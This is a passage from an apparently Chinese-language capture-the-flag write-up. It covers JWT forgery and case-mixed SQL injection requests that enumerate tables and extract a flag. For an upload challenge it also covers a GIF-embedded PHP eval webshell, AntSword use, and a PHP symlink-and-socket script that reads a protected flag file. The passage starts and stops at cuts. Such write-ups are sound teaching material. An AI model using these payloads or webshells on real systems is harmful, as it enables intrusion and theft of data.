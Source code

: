 修改"identity"为"admin"，得到新的jwt

2. 修改Cookie，进入到/queryuserphone，GET /queryuserphone?user=flag' OR ''='

   得到hint："Upper case And Lower Case"

   利用MySql无大小写检测，查看有哪些表

GET `/queryuserphone?user=' Union Select GrOup_coNcat(table_name),2 FrOm InFoRmAtIoN_ScHeMa.tables WhErE TaBlE_ScHeMa=DaTaBaSe() ANd ''='`

发现有两个表`adwoivfhaoihfagfiuaviuf`, `user`

查看`adwoivfhaoihfagfiuaviuf`有哪些colum

GET `/queryuserphone?user='Union Select GrOup_coNcat(column_name),2 FrOm InFoRmAtIoN_ScHeMa.columns WhErE TaBlE_NaMe='adwoivfhaoihfagfiuaviuf' ANd ''='`

仅有flag，故查询flag

GET `/queryuserphone?user=' Union Select flag,2 FrOm adwoivfhaoihfagfiuaviuf WhErE ''='`

```
SSHCTF{1e8bfe8b-f9e0-4e5f-b98a-6b87b75a26c5}
```

### ezUpload

1. 首先做图片马：随便上传一张gif，上传后再下载下来，比对前后有区别，说明二次渲染了

   在上传前后没有变化的区域插入一句话木马   `<?php @eval($_POST['cmd']); ?>`

   上传修改后的gif，再拿下来，发现插入成功

2. 用蚁剑连接`/include.php?filename=<上传后的图片名称>.gif`，连接成功，但shell无法执行指令（ret-1）

   ![image-20240826072316971](C:\Users\Mingz\AppData\Roaming\Typora\typora-user-images\image-20240826072316971.png)同时找到了flag所在位置，但/app/flag无法查看

3. 根据hint: 这shell十分的珍贵，应该先看看有什么东西。不止有php奥

   发现这个wwwweeebbbb.txt也是可读可写可执行，直接改成wwwweeebbbb.php

   删掉其中内容后得到了一个`#Halo AntSword`，这时候觉得做对了，继续看其他文件

   看到Loging.php在往127.0.0.1:33333发包

   将wwwweeebbbb.php的内容改为以下内容（这时候还没加符号链接）

   看到/var/App/www/App下有一个LoggingSoket.py，接受127.0.0.1:33333发送的包，且对file_name有正则检验，` r"flag|key|\."`，我绕不过去（）

   ``` php
   <?php
   $host = '127.0.0.1'; 
   $port = 33333;      
   $file_name = 'nmmd';
   // 创建符号链接
   if (symlink('/app/flag', '/tmp/nmmd')) {
       echo "symlink success";
   } else {
       echo "symlink error";
   }
   // 创建socket
   $socket = socket_create(AF_INET, SOCK_STREAM, SOL_TCP);
   if ($socket === false) {
       echo "socket_create() 失败: " . socket_strerror(socket_last_error()) . "\n";
       exit;
   }
   
   $result = socket_connect($socket, $host, $port);
   if ($result === false) {
       echo "socket_connect() 失败: " . socket_strerror(socket_last_error($socket)) . "\n";
       socket_close($socket);
   ```